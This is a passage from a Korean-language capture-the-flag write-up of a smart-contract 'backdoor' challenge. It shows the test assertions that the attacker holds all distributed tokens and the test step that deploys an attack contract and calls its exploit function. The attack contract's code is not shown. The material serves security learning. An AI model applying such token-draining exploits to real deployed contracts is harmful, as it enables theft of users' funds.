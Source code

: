 ```solidity
            ).to.be.false;
        }

        // Attacker must have taken all tokens
        expect(
            await this.token.balanceOf(attacker.address)
        ).to.eq(AMOUNT_TOKENS_DISTRIBUTED);
    });
});
```

test 폴더의 backdoor.challenge.js의 Exploit 부분에서 작성한 컨트랙트를 배포 후 exploit 함수를 실행해 주면 된다.

```solidity
it('Exploit', async function () {
        this.attackFactory = await ethers.getContractFactory("attackBackdoor_fal",attacker);
        this.attackcontract = await this.attackFactory.deploy( this.walletFactory.address, this.masterCopy.address, this.token.address, this.walletRegistry.address);
        await this.attackcontract.connect(attacker).exploit(users);
    });
```

![성공_fal.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/28a5536d-3a13-4d3e-8d0a-ef716c04ba67/%EC%84%B1%EA%B3%B5_fal.png)

npm run backdoor를 통하여 Exploit이 성공적으로 진행되어 문제의 목표를 달성한 것을 확인할 수 있다.
